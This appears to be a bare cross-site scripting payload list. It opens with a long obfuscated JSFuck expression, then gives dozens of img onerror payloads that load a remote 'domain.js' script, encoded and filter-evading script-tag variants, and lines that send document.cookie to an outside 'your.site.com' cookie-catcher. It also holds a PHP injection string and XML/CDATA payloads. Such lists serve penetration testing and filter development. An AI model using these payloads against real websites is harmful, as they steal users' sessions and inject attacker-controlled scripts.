(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()
</script>
<img src=x onerror=with(document)body.appendChild(document.createElement('script')).src="domain.js"></img>
<img src=x onerror="with(document)body.appendChild(createElement('script')).src='domain.js'"></img>
<img src=1 onerror=jQuery.getScript("domain.js")> 
<img src="#" onerror="$.getScript('domain.js')">
<img src="#" onerror="var a=String.fromCharCode(47);$.getScript(a+a+'domain.sj'+a+'4091')">
<img src='0' onerror=with(document)body.appendChild(createElement('script')).src='domain.js'>
<img src="#" onload="s=document.createElement('script');s.src='domain.js'+Math.random();document.body.appendChild(s)" border="0">
<img src=i onerror=eval(jQuery.getScript('domain.js'))>
<img src=N onerror=eval(javascript:document.write(unescape(' <script src="domain.js"></script>'));)>
<img src=x onerror=document.body.appendChild(document.createElement('script')).src='domain.js'>
<img src=x onerror="with(document)body.appendChild(createElement('script')).src='domain.js'" width="0" height="0"></img>
<  script > < / script>
&lt
&lt;
&LT
&LT;
<
<<
<<<
"><script>"
<script>alert("XSS")</script>
<<script>alert("XSS");//<</script>
<script>alert(document.cookie)</script>
'><script>alert(document.cookie)</script>
'><script>alert(document.cookie);</script>
";alert('XSS');//
%3cscript%3ealert("XSS");%3c/script%3e
%3cscript%3ealert(document.cookie);%3c%2fscript%3e
%3Cscript%3Ealert(%22X%20SS%22);%3C/script%3E
&ltscript&gtalert(document.cookie);</script>
&ltscript&gtalert(document.cookie);&ltscript&gtalert
<xss><script>alert('XSS')</script></vulnerable>
<IMG%20SRC='javascript:alert(document.cookie)'>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC="javascript:alert('XSS')"
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=`javascript:alert("'XSS'")`>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG%20SRC='javasc	ript:alert(document.cookie)'>
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
<IMG SRC=" &#14;  javascript:alert('XSS');">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<IMG%20SRC='%26%23x6a;avasc%26%23000010ript:a%26%23x6c;ert(document.%26%23x63;ookie)'>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
'%3CIFRAME%20SRC=javascript:alert(%2527XSS%2527)%3E%3C/IFRAME%3E
"><script>document.location='http://your.site.com/cgi-bin/cookie.cgi?'???.cookie</script>
%22%3E%3Cscript%3Edocument%2Elocation%3D%27http%3A%2F%2Fyour%2Esite%2Ecom%2Fcgi%2Dbin%2Fcookie%2Ecgi%3F%27%20%2Bdocument%2Ecookie%3C%2Fscript%3E
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//></SCRIPT>!--<SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>=&{}
'';!--"<XSS>=&{()}
<name>','')); phpinfo(); exit;/*</name>
<![CDATA[<script>var n=0;while(true){n;}</script>]]>
<![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]>
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>
<xml ID=I><X><C><![CDATA[<IMG SRC="javas]]><![CDATA[cript:alert('XSS');">]]>
<xml ID="xss"><I><B>&lt;IMG SRC="javas<!-- -->cript:alert('XSS')"&gt;</B></I></xml><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

